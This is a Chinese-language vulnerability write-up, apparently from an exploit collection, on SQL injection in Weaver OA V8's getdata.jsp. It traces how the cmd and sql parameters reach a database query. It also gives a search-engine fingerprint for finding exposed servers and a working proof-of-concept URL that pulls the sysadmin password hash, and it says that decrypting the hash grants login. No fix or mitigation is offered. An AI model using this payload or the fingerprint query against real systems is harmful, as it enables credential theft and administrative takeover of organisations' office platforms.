 # 泛微OA V8 getdata.jsp SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

```
泛微OA V8
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

在getdata.jsp中，直接将request对象交给

**weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) :** 

方法处理

![image-20220209104257902](./images/202202091042978.png)

在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法

![image-20220209104319947](./images/202202091043985.png)

Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中

![image-20220209104335191](./images/202202091043319.png)

根据以上代码流程，只要构造请求参数

?cmd= getSelectAllId&sql=select password as id from userinfo;

即可完成对数据库操控

POC

```plain
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![image-20220209104351654](./images/202202091043694.png)解密后即可登录系统

![image-20220209104408461](./images/202202091044509.png)
